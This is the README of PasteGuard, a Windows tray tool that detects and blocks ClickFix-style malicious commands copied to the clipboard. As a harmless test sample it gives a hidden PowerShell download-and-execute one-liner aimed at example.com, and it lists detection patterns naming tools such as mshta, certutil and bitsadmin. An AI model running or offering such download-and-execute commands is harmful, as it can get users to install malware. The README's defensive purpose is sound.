

# PasteGuard

A small, free Windows tray agent that stops **ClickFix** attacks: fake CAPTCHA, "verify you are human" or "fix this error" pages that trick you into pasting a malicious command into **Win+R**, a terminal or PowerShell.

PasteGuard watches your clipboard. When you copy something that looks like a command, it asks **[Jev](https://docs.typesafe.ai)** (by TypeSafe) how dangerous it is. If the risk score reaches your threshold, the command is **removed from your clipboard** before you can paste it, and you get a warning.

- Runs quietly in the system tray (the shield icon next to the clock)
- Uses **your own** Jev API key
- Only command-like text is ever sent to Jev. Everything else (passwords, chats, documents) stays on your PC.
- Never runs anything it inspects. It only reads text.
- No installer, no admin rights, no .NET install needed. It's one `.exe`.

## See it in action

[](docs/demo.mp4)

A fake "I'm not a robot" page copies a command to the clipboard. PasteGuard checks it with Jev, blocks it, and pasting into **Win+R** gives nothing. Normal commands still paste, and every block is listed in **Threat activity**. Recorded in Windows Sandbox; the demo command is harmless and was never run. [Watch the MP4](docs/demo.mp4).

---

## Setup (about 3 minutes)

### 1. Get a Jev API key
1. Go to **https://console.typesafe.ai/keys** and sign in or create an account.
2. Click to create a new API key and copy it. Keep it private.

### 2. Download PasteGuard
1. Open the **[Releases](https://github.com/Ryankapa/PasteGuard/releases/latest)** page of this repository.
2. Download **`PasteGuard.exe`**.
3. *(Optional, recommended)* Check the download is authentic. In PowerShell, run this in the folder you downloaded to:
   ```powershell
   Get-FileHash .\PasteGuard.exe -Algorithm SHA256
   ```
   The hash should match the one in `PasteGuard.exe.sha256` on the release page.

### 3. Run it
Double-click `PasteGuard.exe`.

> **"Windows protected your PC"?** The free build isn't code-signed, so SmartScreen may warn you. Click **More info → Run anyway**. The source code is all in this repository if you'd like to check it or build it yourself.

### 4. Enter your key
The **Settings** window opens on the first run:
1. Paste your key into **Your Jev API key**.
2. Click **Test key**. You should see **✓ Key works**.
3. Leave **Block threshold** at **70 (recommended)**.
4. Click **Save**.

### 5. Check the tray icon
A **green shield ✓** appears in the system tray. If you don't see it, click the **^** arrow next to the clock. You can drag the icon onto the taskbar to keep it visible.

| Icon | Meaning |
|---|---|
| 🟢 green ✓ | Protecting |
| ⚪ grey ‖ | Paused (you turned protection off) |
| 🟡 yellow ! | No API key, or Jev can't be reached. Open Settings. |

### 6. Try it (safe)
Copy this line. It's a **harmless fake** that points at a reserved test domain, and nothing gets run:

```
powershell -w hidden -c "iex (irm https://example.com/verify.ps1)"   # I am not a robot - reCAPTCHA Verification ID: 4821
```

Within a second you should see **"Blocked a dangerous command"**, and pasting gives you nothing. You can also paste any text into the **Try it** box in Settings to see its score.

---

## Choosing a threshold

Jev returns a risk score from **0 to 100** for each copied command. Anything **at or above** your threshold is blocked.

| Threshold | Behaviour |
|---|---|
| 50 | Strict. Catches more, but expect occasional false alarms on legitimate install commands. |
| **70** | **Recommended.** Good balance for most people. |
| 85+ | Only blocks very obvious attacks. |

**Why 70?** Jev's documentation suggests 0.7 as the starting point for a confident "yes" on a yes/no question, and the local pre-filter already throws away ordinary text. Run the calibration tool (below) to see how each threshold performs on the bundled set of 30 attack and 37 legitimate samples.

### Something you trust got blocked?

Official installer one-liners such as `irm get.scoop.sh | iex` look exactly like attacks, so they may be blocked. To get the command back:

1. **Click the "Blocked a dangerous command" alert.** If it has already gone, right-click the tray icon and choose **Review last blocked command…**
2. The review window shows the **full command** and why it was blocked.
3. Click **Release to clipboard** to put it back, then paste as usual.
   Tick **Always allow this exact command** if you'll run it again. Only that exact text is allowed, so a changed or extended version is still checked.

**Keep blocked** is the default button. Only release a command you chose to copy yourself from a source you trust. If a website told you to paste it to "verify" or "fix" something, keep it blocked.

You can forget all always-allowed commands in **Settings → Options → Forget all**. The allow list stores only fingerprints (SHA-256 hashes) of the commands, never the commands themselves.

---

## How it works

```
copy ─► is it command-like? ──no──► nothing happens (never leaves your PC)
              │ yes
              ▼
        held off the clipboard ─► Jev scores it (0–100)
                                      │
                  score ≥ threshold ──┼── score < threshold
                          ▼                       ▼
              stays removed + warning      put back on the clipboard
```

1. **Local pre-filter.** A list of patterns runs offline: `powershell`, `mshta`, `iex`/`irm`/`iwr`, `cmd /c`, `curl … http`, encoded commands, `certutil`, `bitsadmin`, `rundll32`, `regsvr32`, `finger`, `conhost --headless`, caret/backtick obfuscation, and similar. Text that matches none of them is ignored. Content from password managers that mark their clipboard data as private is always ignored.
2. **Hold.** Command-like text is taken off the clipboard right away, so it can't be pasted before the verdict arrives (usually well under a second).
3. **Score.** The text is sent to Jev with one yes/no question: *is this a ClickFix-style malicious command?* Jev's probability (0–1) is shown as 0–100.
4. **Decide.** Blocked commands are logged and you get a warning. Click the warning to review and release the command. Allowed text goes back exactly as it was copied.

If Jev can't be reached (no internet, wrong key), your copied text is **put back**, so copy/paste keeps working, and the icon turns yellow. You can change this in Settings to *Block command-like text* instead.

## Privacy

- **Sent to Jev:** only text that passes the local command pre-filter, over HTTPS to `api.typesafe.ai`.
- **Never sent:** anything else you copy, images, files, or clipboard data from password managers.
- **Your API key** is stored encrypted with Windows DPAPI in `%APPDATA%\PasteGuard\config.json`. Only your Windows account can decrypt it.
- **Log:** `%LOCALAPPDATA%\PasteGuard\events.log` records blocked commands (first 300 characters) and scores. It stays on your PC. View it from the tray menu → **Threat activity…** or **Settings → Threat activity**.

## Tray menu

Right-click the shield:
- **Review last blocked command…**: see it in full and release it if you trust it
- **Protection on**: pause or resume
- **Settings…**: key, threshold, options (double-clicking the icon also opens it)
- **Threat activity…**: every blocked and released command, with time and score (double-click a row for the full command)
- **Start with Windows**
- **Exit**

## Uninstall

1. Right-click the tray icon, untick **Start with Windows**, then click **Exit**.
2. Delete `PasteGuard.exe`.
3. *(Optional)* Delete `%APPDATA%\PasteGuard` and `%LOCALAPPDATA%\PasteGuard`.

## FAQ

**Does it cost anything?** The tool is free (MIT). Jev usage is billed to your own TypeSafe account. Only command-like copies are sent, so most people send very few requests.

**Does it slow down copy/paste?** Ordinary text isn't touched at all. Copied commands are held for the moment it takes Jev to answer.

**Is this a replacement for antivirus?** No. It's an extra layer aimed at one very common trick. Keep Microsoft Defender or your antivirus on.

**I'm a developer and copy commands all day.** That works. Legitimate commands are put back automatically. If a trusted command is blocked, click the alert and release it, or tick "Always allow" for ones you use often.

---

## Building from source

Requires the [.NET 8 SDK](https://dotnet.microsoft.com/download/dotnet/8.0) on Windows.

```powershell
dotnet test
.\build.ps1          # writes publish\PasteGuard.exe and its .sha256
```

### Calibrating the threshold
The `corpus/samples.jsonl` file holds harmless, text-only examples of ClickFix commands. Every address in them is a reserved test domain or IP that can't reach a real server. It also holds legitimate admin and developer commands. Nothing in it is ever run. To score them with your own key:

```powershell
$env:TYPESAFE_API_KEY = "<your key>"
dotnet run --project tools/Calibrate -- corpus/samples.jsonl
```

It prints each sample's score and writes `corpus/calibration-results.md` with how many attacks and false alarms each threshold would produce.

## License

MIT. See [LICENSE](LICENSE). Not affiliated with TypeSafe. "Jev" is TypeSafe's model.
